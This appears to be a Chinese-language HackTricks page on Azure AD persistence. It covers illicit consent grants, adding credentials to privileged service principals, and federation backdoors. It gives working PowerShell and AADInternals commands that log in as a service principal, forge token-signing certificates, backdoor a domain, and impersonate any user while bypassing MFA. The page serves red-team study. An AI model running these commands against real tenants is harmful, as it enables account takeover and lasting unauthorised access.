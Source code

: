 # Az - 持久性

{% hint style="success" %}
学习并练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享黑客技巧。**

</details>
{% endhint %}

### 非法同意授予

默认情况下，任何用户都可以在 Azure AD 中注册应用程序。因此，您可以注册一个应用程序（仅适用于目标租户），该应用程序需要管理员同意的高影响权限（如果您是管理员，则可以批准它）- 比如代表用户发送邮件、角色管理等。这将使我们能够在成功的情况下执行**钓鱼攻击**，这将是非常**有成效**的。

此外，您还可以接受该应用程序，并以您的用户身份来维持对其的访问。

### 应用程序和服务主体

具有应用程序管理员、GA 或具有 microsoft.directory/applications/credentials/update 权限的自定义角色的特权，我们可以向现有应用程序添加凭据（密钥或证书）。

可以**针对具有高权限的应用程序**或**添加一个具有高权限的新应用程序**。

一个有趣的角色是**特权身份验证管理员角色**，因为它允许**重置全局管理员的密码**。

此技术还允许**绕过 MFA**。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 用于基于证书的身份验证

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### 联合 - 令牌签名证书

拥有本地 AD 上的 **DA 特权**，可以创建和导入具有非常长有效期的 **新令牌签名** 和 **令牌解密证书**。这将允许我们以任何我们知道其 ImuutableID 的用户身份 **登录**。

作为 **ADFS 服务器上的 DA** 运行以下命令来创建新证书（默认密码为 'AADInternals'），将它们添加到 ADFS，禁用自动翻转并重新启动服务：
```powershell
New-AADIntADFSSelfSignedCertificates
```
然后，使用Azure AD更新证书信息：
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### 联邦 - 受信任域

拥有租户上的 GA 特权后，可以**添加一个新域**（必须经过验证），将其身份验证类型配置为联合，并配置该域**信任特定证书**（在下面的命令中为 any.sts）和发行者：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考资料

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
